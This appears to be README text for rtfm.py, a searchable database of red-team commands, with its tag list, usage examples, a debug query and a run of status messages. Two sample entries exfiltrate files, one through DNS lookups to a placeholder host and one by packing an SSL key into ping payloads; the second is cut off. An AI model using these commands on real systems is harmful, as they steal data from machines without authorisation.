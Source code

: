 ```
+----------------+------------------------------------------------------------------------------------+
<snip>
```

All the Tags known about can be shown through -Dt, Currently a few typos that will be fixed in version 0.9.9:
```
 $ rtfm.py -Dt
 | linux |  | bash |  | text manipulation |  | cisco |  | networking |  | loop |  | pivoting |  | files |  | passwords |  | enumeration |  | user information |  | interesting |  | scanning |  | hp |  | brute |  | http |  | web application |  | XSS |  | cookies |  | metasploit |  | certificates |  | stealth |  | smb |  | MitM |  | dns |  | package management |  | reverse shells |  | Windows |  | perl |  | python |  | php |  | ruby |  | sql injection |  | mysql |  | shell |  | mssql |  | Oracle |  | users |  | wireless |  | wifi |  | configuration |  | av evasion |  | powershell |  | memory |  | impacket |  | filesystem |  | IIS |  | process management |  | privilege escalation |  | remote command shell |  | hashes |  | recon |  | cracking |  | nessus |  | subnets |  | packet capture |  | reference |  | web address |  | java |  | solaris |  | forensics |  | ldap |  | Anti Virus |  | GIT |  | interesting  |  | Cloud |  | RDP |  | shells |  | encryption |  | Troll |  | buffer overflow |  | mona |  | interseting |  | brute force |  | Apple |  | encoding |  | ascii |  | web app |  | Cyber Essentials |  | tools |  | code execution |  | jsp | 
```

The next one you will want is -R, this is for searching for a 'remark' (aka comment, didn't want two c flags), this is to search the comments field and is more along the lines of searching for techniques or generic terms such as 'X11' or 'exfil': 
```
+----------------+------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 384                                                                       |
+----------------+------------------------------------------------------------------------------------+
| Command        | for line in `base64 -w 62 [file]`; do host $line.[hostname]; done                  |
|                |                                                                                    |
| Comment        | exfil file through DNS, may want to encrypt, also assuming you have a short domain |
| Tags           | linux                                                                              |
|                | bash                                                                               |
|                | loop                                                                               |
|                | interesting                                                                        |
| Date added     | 2017-06-19                                                                         |
| References     | https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504                  |
+----------------+------------------------------------------------------------------------------------+
+----------------+--------------------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 386                                                                                     |
+----------------+--------------------------------------------------------------------------------------------------+
| Command        | ping -p 11010101010101010101010101010199 -c 1 -M do 127.0.0.1 -s 32; for line in `base64         |
|                | sslfile.key | xxd -p -c 14`; do line2=`echo "11 $line 99" |tr -d ' '`; ping -p $line2 -c 1 -M do |
```

[DEBUG]: Options Set: {'insert': None, 'remark': 'help', 'printer': None, 'dump': None, 'author': 'innes', 'cmd': 'rtfm', 'update': None, 'debug': True, 'tag': 'linux', 'date': '2017-05-10', 'delete': None, 'refer': None}
[DEBUG]: S: SELECT c.cmdid, c.cmd, c.cmnt, c.date, c.author, group_concat(DISTINCT tc.tag), group_concat(DISTINCT ref) FROM tblcommand c JOIN tbltagmap tm ON tm.cmdid = c.cmdid JOIN tbltagcontent tc ON  tc.tagid = tm.tagid JOIN tblrefmap rm ON rm.cmdid = c.cmdid JOIN tblrefcontent rc on rc.id = rm.refid WHERE c.cmd LIKE ?  AND c.cmnt LIKE ?  AND c.author LIKE ?  AND c.date = ? GROUP BY c.cmdid  HAVING  group_concat(tc.tag) like ? 
[DEBUG]: W: ['%rtfm%', '%help%', '%innes%', '2017-05-10', '%linux%']
[DEBUG]: This Returned : [(1, 'rtfm.py -c [command] -t [tag],[tag] -C [comment] -p P', 'Helpception, search for a command with two tags and a comment', '2017-05-10', 'Innes', 'linux', 'https://github.com/leostat/rtfm,https://necurity.co.uk/osprog/2017-02-27-RTFM-Pythonized/index.html')]
[WARNING]: No DB, please run rtfm -u
[OK]: This may appear to hang. Run with debug to get more info
[OK]: Program version information:
[OK]: Your up to date :
[OK]: Added Rows :1
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Refs
[OK]: Hopefully added lots of new commands
[OK]: Parsed Line of update
[OK]: Hopefully fixed lots of commands
[OK]: Update complete
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added tags
[OK]: Added a new Ref and a refmap
[OK]: Added Rows : 2
[OK]: New Top ID : 491 | Number of CMD's Added : 2
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: This tags everything without tags,  mainly for DB init
[OK]: Enter blank line to commit changes
[WARNING]: Number left :22
[OK]: Command ID : 467
[OK]:         Command    : Test Command
[OK]:         Comment    : My comment
[OK]: v These are known tags